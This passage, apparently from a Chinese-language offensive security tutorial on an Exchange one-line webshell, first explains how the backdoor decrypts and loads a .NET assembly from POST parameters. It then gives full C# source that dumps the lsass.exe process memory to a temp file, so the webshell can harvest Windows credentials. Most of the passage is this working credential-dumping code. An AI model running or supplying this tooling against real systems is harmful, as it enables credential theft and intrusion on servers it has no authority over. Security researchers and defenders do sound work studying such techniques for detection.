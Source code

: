 POST请求中的参数`k`作为密钥，参数`data`作为加密的数据，解密后在内存加载并调用名为U的实例

接下来两节内容将介绍连接上述Exchange一句话后门的客户端开发细节


## 0x03 通过内存加载.net程序集实现导出lsass.exe进程的dmp文件
---

这里需要通过C#实现导出lsass.exe进程dmp文件的功能

新建文件dumplsass.cs，代码如下：

```
using System;
using System.Runtime.InteropServices;
using System.Diagnostics;
using System.IO;
using System.Security.Principal;
public class U
{
        [DllImport("dbghelp.dll", EntryPoint = "MiniDumpWriteDump", CallingConvention = CallingConvention.StdCall, CharSet = CharSet.Unicode, ExactSpelling = true, SetLastError = true)]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, uint processId, SafeHandle hFile, uint dumpType, IntPtr expParam, IntPtr userStreamParam, IntPtr callbackParam);
        public static bool IsHighIntegrity()
        {            
            WindowsIdentity identity = WindowsIdentity.GetCurrent();
            WindowsPrincipal principal = new WindowsPrincipal(identity);
            return principal.IsInRole(WindowsBuiltInRole.Administrator);
        }
        public static void Minidump()
        {
            IntPtr targetProcessHandle = IntPtr.Zero;
            uint targetProcessId = 0;
            Process targetProcess = null;
            Process[] processes = Process.GetProcessesByName("lsass");
            targetProcess = processes[0];
            try
            {
                targetProcessId = (uint)targetProcess.Id;
                targetProcessHandle = targetProcess.Handle;
            }
            catch (Exception ex)
            {
                return;
            }
            string systemRoot = Environment.GetEnvironmentVariable("SystemRoot");
            string dumpFile = String.Format("{0}\\Temp\\lsass.bin", systemRoot);
            using (FileStream fs = new FileStream(dumpFile, FileMode.Create, FileAccess.ReadWrite, FileShare.Write))
            {
                MiniDumpWriteDump(targetProcessHandle, targetProcessId, fs.SafeFileHandle, (uint)2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
            }
        }
        public override bool Equals(Object obj)
        {        
            Minidump();
            return true;
        }
}
```
